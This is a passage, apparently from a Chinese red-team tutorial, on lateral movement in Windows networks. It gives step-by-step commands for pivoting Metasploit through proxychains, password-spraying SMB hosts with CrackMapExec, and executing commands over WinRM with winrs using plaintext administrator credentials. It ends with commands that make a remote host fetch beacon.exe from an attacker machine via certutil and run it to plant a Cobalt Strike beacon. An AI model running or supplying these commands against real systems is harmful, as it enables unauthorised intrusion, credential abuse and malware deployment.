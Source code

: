 也可使用proxychains配合使用CrackMapExec
首先开启msf设置代理
Default
meterpreter > background 
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy 
msf6 auxiliary(server/socks_proxy) > set SRVPORT 2233
msf6 auxiliary(server/socks_proxy) > run

更改proxychains.conf
Default
nano /etc/proxychains.conf

密码喷射
Default
root@tale:~# proxychains python3 ./cme smb 192.168.3.20-33 -u administrator -p 'admin!@#45'

WINRM横向

WinRM代表Windows远程管理，是一种允许管理员远程执行系统管理任务的服务。默认情况下支持Kerberos和NTLM身份验证以及基本身份验证。
条件：
目标系统防火墙已事先允许5985(HTTP SOAP)或5986(HTTPS SOAP)端口连入
双方都启用的Winrm rs的服务
使用此服务需要管理员级别凭据。
Windows2008以上版本默认自动状态，Windows Vista/win7上必须手动启动；
Windows 2012之后的版本默认允许远程任意主机来管理。
目标系统本地杀软、EDR未拦截Winrs.exe、Powershell.exe，cmd.exe执行
攻击机开启：
Default
winrm quickconfig -q

可通过cs内置端口扫描5985来判断目标主机是否开启WinRM
使用ps命令查看开启情况
Default
powershell Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"}
连接执行：
Default
winrs -r:192.168.3.21 -u:192.168.3.21\administrator -p:admin!@#45 whoami

远程连接时可能会遇到以下错误
Default
Winrs error:WinRM 客户端无法处理该请求。可以在下列条件下将默认身份验证与 IP 地址结合使用: 传输为 HTTPS 或目标位于 TrustedHosts 列表中，并且提供了显式凭据。使用 winrm.cmd 配置 TrustedHosts。请注意，TrustedHosts 列表中的计算机可能未经过身份验证。有关如何设置 TrustedHosts 的详细信息，请运行以下命令: winrm help config。

在攻击机上执行下面这条命令，设置为信任所有主机，再去连接即可
Default
winrm set winrm/config/Client @{TrustedHosts="*"}

上线CS:
Default
winrs -r:192.168.3.32 -u:192.168.3.32\administrator -p:admin!@#45 "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"
winrs -r:192.168.3.32 -u:192.168.3.32\administrator -p:admin!@#45 "cmd.exe /c c:/beacon.exe"

也可以使用cs内置插件
